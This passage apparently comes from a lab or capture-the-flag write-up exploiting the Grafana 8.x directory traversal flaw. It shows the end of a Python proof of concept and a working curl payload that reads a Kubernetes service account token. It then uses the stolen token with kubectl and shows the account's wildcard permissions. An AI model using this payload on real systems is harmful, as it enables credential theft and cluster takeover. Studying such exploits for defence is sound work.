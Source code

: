 ```python


def main():
    parser = argparse.ArgumentParser(
        description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
    parser.add_argument('-H', dest='host', required=True, help="Target host")
    args = parser.parse_args()

    try:
        exploit(args)
    except KeyboardInterrupt:
        return


if __name__ == '__main__':
    main()
    sys.exit(0)
```

From the POC exploit, we can see that the LFI payload can be crafted as below to this endpoint. This will read the secret (in JWT format) of an escalated service account.

```bash
curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
```

As the shell is not too stable, the token is saved into an environment variable as below.

```console
export token=$(curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token)
```

We can now interact kubernetes with an escalated service account.

```console
./kubectl auth can-i --list --token=${token}
Resources                                       Non-Resource URLs                     Resource Names   Verbs
*.*                                             []                                    []               [*]
                                                [*]                                   []               [*]
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
                                                [/livez]                              []               [get]
```
